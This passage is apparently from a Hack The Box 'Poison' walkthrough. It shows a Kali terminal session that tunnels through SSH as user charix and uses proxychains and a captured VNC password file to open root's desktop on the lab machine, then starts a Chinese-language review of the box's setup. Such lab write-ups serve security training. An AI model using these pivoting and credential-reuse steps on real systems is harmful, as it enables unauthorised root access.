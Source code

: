     root@kali:~/hackthebox/poison-10.10.10.84# tail /etc/proxychains.conf
    #
    #       proxy types: http, socks4, socks5
    #        ( auth types supported: "basic"-http  "user/pass"-socks )
    #
    [ProxyList]
    # add proxy here ...
    # meanwile
    # defaults set to "tor"
    socks4  127.0.0.1 8081
    
    root@kali:~/hackthebox/poison-10.10.10.84# ssh charix@10.10.10.84 -D 8081
    

    root@kali:~/hackthebox/poison-10.10.10.84# proxychains vncviewer 127.0.0.1:5901 -passwd secret
    ProxyChains-3.1 (http://proxychains.sf.net)
    |S-chain|-<>-127.0.0.1:8081-<><>-127.0.0.1:5901-<><>-OK
    Connected to RFB server, using protocol version 3.8
    Enabling TightVNC protocol extensions
    Performing standard VNC authentication
    Authentication successful
    Desktop name "root's X desktop (Poison:1)"
    VNC server default format:
      32 bits per pixel.
      Least significant byte first in each pixel.
      True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
    Using default colormap which is TrueColor.  Pixel format:
      32 bits per pixel.
      Least significant byte first in each pixel.
      True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
    Same machine: preferring raw encoding
    

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fpoison_vnc-root.png)

## 病毒配置详细信息

通过完全访问盒子，看到实际存在的东西总是很好的，以及事情是否像我们想象的那样设置，因为我们在处理它时。

### 网站

`index.php`是一个简单的形式，GET为：`browse.php`
